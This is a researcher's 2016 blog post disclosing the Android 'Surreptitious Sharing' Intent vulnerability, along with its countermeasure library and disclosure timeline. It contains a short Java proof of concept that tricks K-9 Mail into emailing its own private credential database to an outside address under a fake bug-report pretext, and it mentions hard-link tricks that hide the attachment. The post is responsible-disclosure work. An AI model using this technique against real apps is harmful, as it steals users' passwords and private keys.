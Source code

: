 ```yaml
---
layout: post
title: Surreptitious Sharing on Android
author: Dominik Schürmann
date: 2016-04-04
slug: surreptitious-sharing
aliases:
    - "/2016/04/04/surreptitious-sharing.html"
---
```


_This post has also been published at the [Insitute for Operating Systems and Computer Networks](https://www.ibr.cs.tu-bs.de/news/ibr/surreptitious-sharing-2016-04-04.xml)._


Many email and messaging apps on Android utilize the Intent API for sending files shared from other apps such as Android's gallery.
These Intents are standardized for sending and receiving content.
Instead of sending entire files, such as videos, via this API, only URIs are exchanged pointing to the actual storage position.
We found a vulnerability in this Intent API, which is present in many published communication apps allowing privilege escalation and data leakage.
In the worst case, this can possibly leak private keys stored by popular encrypted messaging apps, such as Threema, Telegram, or Signal.

While private app storages are separated via Unix file permissions, apps can always access their own private files.
Thus, a malicious app can share a URI using the <em>file</em> scheme that points to a private file of the receiving app.
Many apps, such as email and messaging clients, accept these URIs and offer to send their own private file to communication partners.
We call this vulnerability <em>Surreptitious Sharing</em>.
In this blog post, we give a short overview of how it can be exploited in practice and provide a backward compatible library as a countermeasure.


## Details
The main issue lies in the fact that apps cannot only access their private data directories using <span style="font-family:monospace;">Context.openFileOutput(String name, int mode)</span>, but also using <em>file</em> URIs.
While these URIs are normally used to access files on the SD card, via <span style="font-family:monospace;">file:///sdcard/paper.pdf</span> for example, they can also point to private files, e.g., <span style="font-family:monospace;">file:///data/data/com.example.app/files/paper.pdf</span>.
If an app registers Intent Filters to support Android's sharing API or defines custom Intents accepting URIs, they are potentially accepting <em>file</em> URIs that could also point to their own private files.
For apps facilitating communication, like email or messaging apps, this leads to what we call <em>Surreptitious Sharing</em>.
To our knowledge, a similar issue has first been documented as vulnerability OKC-01-010 in [Cure53's security audit of the OpenPGP app OpenKeychain](https://cure53.de/pentest-report_openkeychain.pdf).
While their report applies this issue to the file encryption API in OpenKeychain, we apply it in a broader context to communication apps.
Investigating the AOSP source code reveals that support for <em>file</em> URIs using <span style="font-family:monospace;">Context.openFileOutput(String name, int mode)</span> (similar checks are present in <span style="font-family:monospace;">openAssetFileDescriptor</span>) was planned to be removed (see inline comments in <span style="font-family:monospace;">openInputStream</span> method in <span style="font-family:monospace;">[ContentResolver](https://android.googlesource.com/platform/frameworks/base/+/master/core/java/android/content/ContentResolver.java)</span>).

## Research Paper
A pre-published version of our research paper, presented on [GI Sicherheit 2016](https://sicherheit2016.de), is available as [schuermann-sicherheit2016.pdf](http://www.ibr.cs.tu-bs.de/papers/schuermann-sicherheit2016.pdf).
In this paper we analyze 4 email and 8 messaging apps in detail and found that 8 out of 12 apps are vulnerable.


## Example Exploitation
This example is intended to surreptitiously share IMAP passwords of K-9 Mail with an attacker.
Please note that K-9 Mail serves only as an example, the issue has already been fixed in the current release and was present in many more apps, as discussed in our research paper.
As shown by the screenshots, a malicious app could show a screen indicating that a problem has occurred urging the user to report the bug to the developers.
Touching the button starts a malicious Intent specially crafted for a particular email client with an URI pointing to a private file of this email app, containing the IMAP password.


![](/images/surreptitious-sharing-2016-04-04-1.png)
![](/images/surreptitious-sharing-2016-04-04-2.png)

The code required to execute this attack follows:

```java
Intent i = new Intent();
i.setComponent(new ComponentName("com.fsck.k9", "com.fsck.k9.activity.MessageCompose"));
i.setAction(Intent.ACTION_SEND); i.setType("text/plain");
Uri uri = Uri.parse("file:///data/data/com.fsck.k9/databases/preferences_storage");
i.putExtra(Intent.EXTRA_STREAM, uri);
i.putExtra(Intent.EXTRA_TEXT, "Hello World");
i.putExtra(Intent.EXTRA_EMAIL, new String[]{"support@company.com"});
i.putExtra(Intent.EXTRA_TEXT, "Dear support team,...");
i.putExtra(Intent.EXTRA_SUBJECT, "Bug Report");
```

To make it more difficult for a user to detect this data leakage and to circumvent protection mechanisms in GMail, a hard link can be created and named "bug-report" for example (details are available in the paper).
In the paper, we stated that "However, we were not able to exploit GMail on Android 6, maybe due to the new runtime permissions; this has not been investigated further.".
In discussions with Google engineers, it became clear that the hard link could indeed not be created on Android 6 but due to new SELinux policies.
This can be reproduced by connecting to a Android device via <span style="font-family:monospace;">adb shell</span> and then observing the output of <span style="font-family:monospace;">dmesg | grep avc</span>.


## Countermeasure
We provided a fix for app developers that checks with <span style="font-family:monospace;">fstat</span> if a file is owned by the receiving app only and then prevents the opening of it.
Due to the requirement of using <span style="font-family:monospace;">fstat</span> our Java fix was only available for Android >= 5, but thanks to cketti, the lead developer of K-9 Mail, a library has been created for backward compatibility.
We strongly recommend to use this library to fix the issue in your app: [https://github.com/cketti/SafeContentResolver](https://github.com/cketti/SafeContentResolver).

## Android N
As noted in [Commonsware's blog](https://commonsware.com/blog/2016/03/14/psa-file-scheme-ban-n-developer-preview.html), support for the <em>file</em> scheme has been removed in Android N Developer Preview.
We don't know if this has been done as a response to this vulnerability, but we suspect this change was already planned before we reported the problem, as comments inside AOSP source code already indicated upcoming changes.
Commonsware provides great blog posts how to [consume](https://commonsware.com/blog/2016/03/15/how-consume-content-uri.html) and [provide](https://commonsware.com/blog/2016/03/16/how-publish-files-via-content-uri.html) file access over <em>content</em> URIs.

## Responsible Disclosure
* 2016-01-29 Informed Google via [AOSP's bug tracker](https://code.google.com/p/android/issues/detail?id=199888) (non-public bug report)
* 2016-02-01 Informed developers of evaluated vulnerable apps: K-9 Mail, WEB.DE Mail, Skype, Threema, Signal, Telegram (except GMail, AOSP Mail, which are maintained by Google)
* 2016-04-04 Public disclosure via blog post
* 2016-04-06 Presentation on [GI Sicherheit 2016](https://sicherheit2016.de)


We like to acknowledge that the developers of K-9 Mail, WEB.DE Mail, Threema, and Telegram answered very fast while no response has been received from Microsoft.
Thus, Skype is still vulnerable.
It is important to note that we only informed developers of apps, which have been explicitly evaluated in our paper.
The issue is definitely present in many more apps besides the discussed ones.

## Acknowledgments
* [Cure53](https://cure53.de/) for discovering a similar issue in OpenKeychain, OKC-01-010
* <em>cketti</em> and <em>1 &amp; 1 Mail &amp; Media Development &amp; Technology GmbH</em> for developing a backward compatible fix
* Thanks for the bug bounties by Google and Telegram

## Contact
If you have more question, please contact [Dominik Schürmann](https://www.ibr.cs.tu-bs.de/users/schuerm/index.xml).
